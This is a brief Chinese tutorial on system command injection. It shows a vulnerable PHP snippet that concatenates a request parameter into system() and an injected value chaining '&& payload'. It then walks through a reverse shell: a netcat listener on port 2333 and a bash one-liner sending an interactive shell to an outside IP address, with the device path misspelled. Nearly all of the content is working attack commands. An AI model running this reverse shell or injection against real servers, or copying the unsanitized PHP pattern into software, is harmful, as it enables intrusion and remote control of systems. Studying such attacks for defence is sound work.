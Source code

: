 ## ExecuteAttack 系统命令注入攻击

### 系统命令注入

我们都知道, 在linux系统中可以利用连接符或者管道去串联两个系统命令.

系统命令注入攻击在服务器端一般以如下形式呈现:

```php
<?php
system('ping -c' . $GET['ip']);
?>
```

我们可以注入

```shell
127.0.0.1 && payload
```

诸如此类的完成劫持.



### 利用系统命令实现shell反弹

我们将用户机设为劫持机, 服务端设为靶机.

我们查看攻击机的公网IP.

```shell
curl ifconfig.me
```

将攻击机的监听端口挂载至2333:

```shell
netcat -lvvp 2333
```

接着在靶机操作:

```shell
bash -c "bash -i >& /dev/tnp/211.64.159.164/2333 0>&1"
```

